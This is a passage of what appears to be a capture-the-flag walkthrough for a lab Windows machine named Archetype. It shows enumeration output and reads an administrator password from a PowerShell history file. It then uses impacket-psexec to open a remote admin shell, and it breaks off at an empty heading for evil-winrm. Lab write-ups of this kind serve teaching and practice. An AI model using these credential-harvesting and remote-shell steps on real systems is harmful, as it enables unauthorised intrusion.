 ```
 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 12 potential vulnerabilities.
```

And the powershell console history.

```
 PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
 PS history size: 79
```

Which gives us the Administrator password:

```
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

### Gain administrator access

We know the administrator username is `administrator` and password is `MEGACORP_4dm1n!!`. Now, we can follow either of the two methods to login as the administrator.&#x20;

### Using impacket-psexec

```awk
impacket-psexec ARCHETYPE/administrator@10.129.95.187 
```

After providing the password at the prompt we get the shell access:

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.95.187.....
[*] Found writable share ADMIN$
[*] Uploading file VuaxbZOR.exe
[*] Opening SVCManager on 10.129.95.187.....
[*] Creating service lSNA on 10.129.95.187.....
[*] Starting service lSNA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

### Using evil-winrm
